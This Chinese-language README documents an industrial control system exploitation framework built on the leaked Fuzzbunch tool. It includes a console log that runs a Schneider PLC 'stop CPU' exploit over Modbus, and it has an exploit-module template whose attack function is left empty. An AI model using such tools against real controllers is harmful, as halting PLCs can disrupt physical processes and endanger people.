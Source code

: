 
# 一、	框架介绍

本框架主要使用Python语言开发，通过集成ShadowBroker释放的NSA工具Fuzzbunch攻击框架，开发一款适合工控漏洞利用的框架。由于Fuzzbunch攻击框架仅适用于Python2.6，很多核心的功能都封装成了DLL，通过函数进行调用，不便于后期的移植和使用。但是，Fuzzbunch的命令行使用的确很方便，而且够傻瓜，所以就有集成一个适合工控漏洞利用的框架想法。新框架对主要的接口使用Python重新实现，所以支持Python2.X版本。

肯定会有人问，有牛逼的MSF，搞这个玩竟儿有什么用？主要基于如下几点考虑

* MSF命令行使用不够傻瓜，纯属个人观点，仅供参考。
* 工控的很多私用协议都使用Python开发，有很多优秀的Python框架（如scapy、kitty），集成在MSF很麻烦，有一个Python的框架会方便很多。
* 最主要的一个原因是，从事工控安全以来，本人一直在使用Python，很多脚本都是基于Python开发的，想将手上所有的资源进行整合，提供一个统一的平台，方便。


# 二、	框架使用

进入目录，执行如下命令：

    python main.py

界面显示如下：

    D:\isf\isf>python main.py

                                   ???
                             ???????????????
                          ?????           ?????
                       ????                   ????
                     ????                       ????
                    ???                           ???
                   ???             ??              ???
                  ???           ????????            ???
                 ???           ???????????           ???
                 ???          ?????????????          ???
                 ??          ???????????????          ??
                 ??         ?????????????????         ??
                 ??        ??????       ?????         ??
                 ??            ???????????            ??
                 ??            ???????????            ??
                 ??             ?????????             ??
                 ???             ???????             ???
                 ???              ?????              ???
                  ???          ???????????          ???
                   ???      ?????????????????      ???
                    ???   ????????????????????    ???
                      ?????????????????????????????
                       ???????????????????????????
                          ?????????????????????
                             ---ICSMASTER---

    + - - - - - + [ Version 1.1.1                           ] + - - - - - +
    + - - - - - + [ MADE BY ICSMASTER. HTTP://ICSMASTER.COM ] + - - - - - +
    
    [*] Loading Plugins
    [*] Initializing isf v1.1.1
    [*] Adding Global Variables
    [+] Set ResourcesDir =>. c:\isf\Resources
    [+] Set Color =>. True
    [+] Set ShowHiddenParameters =>. False
    [+] Set NetworkTimeout =>. 60
    [+] Set LogDir =>. D:\isf\isf\logs
    [*] Autorun ON
    
    Exploit Autorun List
    ====================
    
      0) apply
      1) touch all
      2) prompt confirm
      3) execute
    
    
    Payload Autorun List
    ====================
    
      0) apply
      1) prompt confirm
      2) execute
    
    
    [+] Set ISFStorage =>. D:\isf\isf\storage
    isf >
    
show命令使用，显示当前所有的插件，如下所示

    isf > show
    
    Plugin Categories
    =================
    
      Category     Active Plugin
      --------     -------------
      Exploit      None
      Payload      None
    
    isf > show Exploit
    
    Plugin Category: Exploit
    ========================
    
      Name                            Version
      ----                            -------
      Schneider_CPU_Command           1.1.0
      Siemens_300_400_CPU_Control     1.1.0

use命令使用，调用相关插件，并根据命令行提示配置参数，如下所示

    isf > use Schneider_CPU_Command

    [!] Entering Plugin Context :: Schneider_CPU_Command
    [*] Applying Global Variables
    
    [*] Applying Session Parameters
    [*] Running Exploit Touches
    
    
    [!] Enter Prompt Mode :: Schneider_CPU_Command
    
    Module: Schneider_CPU_Command
    =============================
    
      Name            Value
      ----            -----
      TargetIp
      TargetPort      502
      Command         stop
    
    [!] plugin variables are valid
    [?] Prompt For Variable Settings? [Yes] :
    
    [*]  TargetIp :: Target IP Address
    
    [?] TargetIp [] : 192.168.1.30
    [+] Set TargetIp => 192.168.1.30
    
    [*]  TargetPort :: Target Port
    
    [?] TargetPort [502] :
    [+] Set TargetPort => 502
    
    [*]  Command :: The control command of cpu [stop/start]
    
    [?] Command [stop] :
    [+] Set Command => stop
    
    
    [!] Preparing to Execute Schneider_CPU_Command
    
    Module: Schneider_CPU_Command
    =============================
    
      Name            Value
      ----            -----
      TargetIp        192.168.1.30
      TargetPort      502
      Command         stop
    
    [?] Execute Plugin? [Yes] :
    [*] Executing Plugin
    logging to file
    [+] Schneider_CPU_Command Succeeded


# 三、	EXP编写

编写一个EXP需要包含两个文件，一个参数描述性的文件 *.xml 和 一个漏洞脚本文件 *.py，两个文件的名字需要相同，xml定义输入输出的参数的基本信息，如下所示，EXP需要三个参数，分别是TargetIp、TargetPort、Command。注意：XML文件中 name 字段不能重复。

    <?xml version="1.0"?>
    <t:config id="c72514379eaad943b62f4080a5ae1dc61619f0f3"
              name="Schneider_CPU_Command"
              version="1.1.0"
              configversion="1.1.0.0"
              xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance'
              xmlns:t='tc0'>
    
      <t:inputparameters>    
        <t:parameter name="TargetIp"
                     description="Target IP Address"
                     type="IPv4"/>
        <t:parameter name="TargetPort"
                     description="Target Port"
                     type="TcpPort"
                     default="502"/>
        <t:parameter name="Command"
                     description="The control command of cpu [stop/start]"
                     type="String"
                     default="stop"/>
      </t:inputparameters>
    </t:config>
    
漏洞利用脚本编写方法如下，如果不清楚可以直接拷贝如下模板进行修改

> 1、继承基础类 BaseExploit 
> 2、填写POC基础信息 pocinfo
> 3、注册命令行，向register_options变量增加make_option对象即可，注意参数名称需要与xml文件保持一致
> 4、实现exploit函数

    
    #!/usr/bin/env python
    # coding=utf-8
    from core.exploit import *


    class MyScript(BaseExploit):
    register_info = {
        'ID': 'ICF-2017-00020001',
        'Name': '施耐德昆腾140系列PLC CPU控制',
        'Author': 'w3h',
        'License': ISF_LICENSE,
        'Create_Date': '2017-04-09',
        'Description': '''施耐德昆腾140系列PLC认证用户时Session使用是单比特，导致攻击者可以向PLC发送CPU控制指令。''',

        'Vendor': VENDOR.SID,
        'Device': ['Schneider Quantum 140'],
        'App': '',
        'Protocol': 'modbus',
        'References': {'CVE': '', 'CNVD': '', 'OSVDB': '', 'CNNVD': ''},

        'Risk': RISK.H,  # H/M/L
        'VulType': VULTYPE.REP
    }

    register_options = [
        mkopt_rport(502),
        mkopt('--Command', help='The constrol commond of cpu', dest="Command", default="stop"),
    ]

    def exploit(self, *args, **kwargs):
        cmd = self.getParam("Command")


    MainEntry(MyScript, __name__)
    



